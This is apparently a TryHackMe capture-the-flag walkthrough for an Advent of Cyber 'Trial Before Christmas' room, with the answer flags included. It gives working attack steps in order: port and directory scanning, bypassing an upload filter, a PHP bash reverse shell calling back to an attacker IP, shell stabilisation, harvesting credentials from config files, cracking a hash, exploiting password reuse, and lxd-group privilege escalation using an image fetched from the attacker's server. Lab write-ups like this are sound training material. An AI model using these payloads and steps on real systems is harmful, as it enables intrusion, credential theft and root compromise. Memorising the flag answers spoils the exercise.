


Task 29 [Day 24] Special by DarkStar The Trial Before Christmas
1. Scan the machine. What ports are open?
nmap -sV -sS 10.10.117.253
Answer: 80, 65000
2. What's the title of the hidden website?
It's worthwhile looking recursively at all websites on the box for this step. Visit 10.10.117.253:65000
Answer: Cyber Light
3. What is the name of the hidden php page?
gobuster dir -t 100 -w /usr/share/wordlists/dirb/big.txt -u
http://10.10.117.253:65000 -x .php
uploads.php
4. What is the name of the hidden directory where file uploads are saved?
the gobuster scan revealed grid
Answer: grid
5. Bypass the filters. Upload and execute a reverse shell.
visit 10.10.117.253:65000/uploads.php while Burpsuite is active.
change the settings of Burp so that JS files get blocked by the proxy as well
when visiting the site forward everything but filter.js
afterwards create a php reverseshell that can be uploaded:
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.9.237.36/4444 0>&1'");
save it as something like revshell.png.php
this is done so that the upload filter on the server's side is bypassed as well
afterwards, start a netcat session:
nc -lvnp 4444
go to 10.10.117.253:65000/grid and click on the file that was just uploaded
This should establish a reverse shell connection with the box
6. What is the value of the web.txt flag?
web.txt is located in /var/www
navigate there using cd
cat web.txt
Answer: THM{ENTER_THE_GRID}
7. Upgrade and stabilize your shell.
python3 -c 'import pty;pty.spawn("/bin/bash")' to spawn a bash shell
export TERM=xterm to give access to commands such as clear
Ctrl + Z to move the shell into the backround
stty raw -echo; fg to turn of echoes of the original shell (thus giving access to things such as tab complete, arrow keys, ctrl + c, etc) and it brings the netcat shell back into the foreground.
8. Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find?
username:password cd /var/www/TheGrid
cat dbauth.php

Answer: tron:IFightForTheUsers
9. Access the database and discover the encrypted credentials. What is the name of the database you find these in?
mysql -h localhost -u tron -p (-h for the host name; -u for the username; -p to be prompted with a password)
show tables;
select * from users;
Answer: tron
10. Crack the password. What is it?

Using crackstation.net, flynn's passsword is @computer@
Answer: @computer@
11. Use su to login to the newly discovered user by exploiting password reuse.
su flynn
@computer@
12. What is the value of the user.txt flag?
find / -name user.txt | grep user.txt (to find the file among all the errors)
cat ~/user.txt
Answer: THM{IDENTITY_DISC_RECOGNISED}
13. Check the user's groups. Which group can be leveraged to escalate privileges?
groups
Answer: lxd
14. Abuse this group to escalate privileges to root.
On our own machine:
sudo snap install lxd
sudo adduser user lxd
newgrp lxd
in the folder where github.com/lxd-images/alpine-3-7-apache-php5-6 was downloaded
sudo bash ./import.sh
then spin up a python server:
python3 -m http.server 8080
on the victim machine:
navigate to the home folder
wget 10.9.237.36:8080/alpine-3-7-apache-php5-6.tar.bz2
lxc image import alpine-3-7-apache-php5-6.tar.bz2
then follow the instructions on
https://tryhackme.com/room/adventofcyber2 for further information:
https://www.hackingarticles.in/lxd-privilege-escalation/ 15. What is the value of the root.txt flag?
cd /mnt/mnt/root/root
cat root.txt
Answer: THM{FLYNN_LIVES}